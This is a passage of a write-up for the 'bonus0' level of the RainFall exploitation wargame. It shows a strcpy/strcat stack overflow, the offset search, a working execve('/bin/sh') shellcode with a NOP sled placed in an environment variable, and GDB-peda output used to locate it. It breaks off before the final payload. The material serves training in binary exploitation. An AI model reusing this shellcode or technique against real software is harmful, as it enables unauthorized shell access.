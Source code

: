 Overflow test : the main buffer is filled with our input which does not include any '\0' so `strcpy` copies the two middle buffers, the 'space' is inserted when a '\0' is encountered, then `strcat` append a new occurence of the 2nd middle buffer
```console
bonus0@RainFall:~$ ./bonus0
 -
AAAABBBBCCCCDDDDEEEE    # +1 'E' character here
 -
FFFFGGGGHHHHIIIIJJJJ
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJ�� FFFFGGGGHHHHIIIIJJJJ��
Segmentation fault (core dumped)
```

As usual, we use a buffer overflow eip string generator to find the good offset to reach the `main` return address. This offset is after the ninth character of the second string (middle buffer 2).

The only thing we need now is an address where we can jump and execute some code to spawn a shell. Due to the lack of space in the buffer, we will jump elsewhere on the stack. The environment is a good place to store our shellcode, since it is sent to any program via the third argument of `main`, so it is pushed on the stack.

We write the same shellcode as in the level2, which run `execve("/bin/sh", ["/bin/sh"], NULL)` and assign it to an environment variable. We add a NOP sled to create a large range of address where we can jump into.

```console
bonus0@RainFall:~$ export SHELLCODE=`python -c 'print "\x90"*50 + "\xeb\x16\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
bonus0@RainFall:~$ env | grep SHELLCODE
SHELLCODE=���������������������������������������������������1�[�C��C
                                                                     �
                                                                      ��S
                                                                          ̀�����/bin/sh
```

Finally, we look for the address where our variable is stored. To do so, [GDB peda](https://github.com/longld/peda) is very useful, since it displays the top of the stack in a human readable form.

```gdb
bonus0@RainFall:~$ gdb ./bonus0
Reading symbols from /home/user/bonus0/bonus0...(no debugging symbols found)...done.
gdb-peda$ start
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0xb7fd0ff4 --> 0x1a4d7c
ECX: 0xbffff774 --> 0xbffff892 ("/home/user/bonus0/bonus0")
EDX: 0xbffff704 --> 0xb7fd0ff4 --> 0x1a4d7c
ESI: 0x0
EDI: 0x0
EBP: 0xbffff6d8 --> 0x0
ESP: 0xbffff6d8 --> 0x0
EIP: 0x80485a7 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x200246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80485a3 <pp+133>:	ret
   0x80485a4 <main>:	push   ebp
   0x80485a5 <main+1>:	mov    ebp,esp
=> 0x80485a7 <main+3>:	and    esp,0xfffffff0
   0x80485aa <main+6>:	sub    esp,0x40
   0x80485ad <main+9>:	lea    eax,[esp+0x16]
   0x80485b1 <main+13>:	mov    DWORD PTR [esp],eax
   0x80485b4 <main+16>:	call   0x804851e <pp>
[------------------------------------stack-------------------------------------]
0000| 0xbffff6d8 --> 0x0
0004| 0xbffff6dc --> 0xb7e454d3 (<__libc_start_main+243>:	mov    DWORD PTR [esp],eax)
0008| 0xbffff6e0 --> 0x1
```
